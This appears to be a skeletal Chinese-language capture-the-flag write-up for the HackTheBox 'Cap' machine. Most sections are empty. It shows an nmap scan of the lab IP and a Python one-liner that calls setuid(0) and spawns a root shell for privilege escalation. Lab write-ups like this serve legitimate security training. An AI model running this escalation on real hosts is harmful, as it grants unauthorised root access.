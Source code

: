 # 原创
：  HackTheBox-Cap

# HackTheBox-Cap

#### HackTheBox-Cap

## 连接配置

> 



## 渗透测试

### 信息搜集

> 



```
sudo nmap 10.10.10.245

```

> 



### 漏洞挖掘

> 



> 



### getshell

> 



### 提权

> 



> 



```
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'

```

> 


